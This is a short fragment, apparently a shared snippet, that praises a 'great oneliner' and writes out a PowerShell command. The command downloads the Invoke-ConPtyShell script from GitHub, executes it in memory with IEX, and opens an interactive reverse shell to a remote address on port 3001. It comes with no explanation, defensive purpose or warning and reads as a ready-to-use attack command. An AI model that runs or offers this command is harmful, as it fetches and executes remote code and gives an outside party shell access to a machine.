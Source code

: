 Great oneliner
```powershell
powershell -c "IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell $IP 3001"
```

